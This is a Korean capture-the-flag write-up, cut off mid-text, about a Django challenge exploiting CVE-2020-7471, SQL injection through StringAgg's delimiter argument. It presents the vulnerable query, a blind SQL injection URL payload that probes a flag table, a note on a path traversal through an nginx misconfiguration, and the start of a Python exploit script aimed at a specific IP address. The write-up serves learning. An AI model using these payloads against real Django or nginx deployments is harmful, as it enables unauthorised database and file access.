 * 실제 백엔드 코드
```python
results = Blog.objects.filter(pk=blog_id, content__contains=content).values('title').annotate(
    custom_field=StringAgg('content', delimiter=content)).all()
```
StringAgg함수를 통해 구분자와 함께 문자열을 붙여서 리턴해주는 함수 인데 해당 
input값에 대한 입력값 검증이 없어서 저 `content`  부분에 injection payload를 넣을수 있습니다.

```
http:///vul/1/?content=-\\\\') AS "mydefinedname" FROM "vul_blog" WHERE 1=1 AND case when (SELECT length(string_agg(vul_flag.flag, '')) FROM vul_flag) < 500 then true else false end GROUP BY "vul_blog"."title" LIMIT 1 offset 1 --
```

### 실제 Hacker들의 풀이 
* nginx 서버 설정 실수로 인한 `Path Traversal` 취약점 발생 
`http://118.67.135.137/static../` url 접근 후 서버 내 모든 파일 접근이 가능 해짐으로서 백업용 dump 파일을 읽어들여 flag를 획득

### 취약점
CVE-2020-7471

- `Django` version  1.11,  2.2   3.0.x ≤ 3.0.2 버전에서 발견된 
   SQL Injection 취약점 CVE-2020-7471을 이용한 문제

- postgresql 관련 함수 중  `StringAgg` 함수와 관련된 코드에서 
  인자값 검사 기능이 미흡해 발생한 취약점


### 익스플로잇

- 다음은 익스플로잇 코드입니다.

```python
import requests

server = "http://118.67.135.137/post/"

id = 1
content_param = f"/?content="
content = "IS_FREE!"



def exists_check(content):
    """응답값 체크용 함수"""
    if "title" in str(content):
        return True
    else:
        return False



headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7",
    "Cache-Control": "no-cache",
    "Connection": "keep-alive",
    "Host": "127.0.0.1:8000",
    "Pragma": "no-cache",
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "none",
    "Sec-Fetch-User": "?1",
    "Upgrade-Insecure-Requests": "1",
```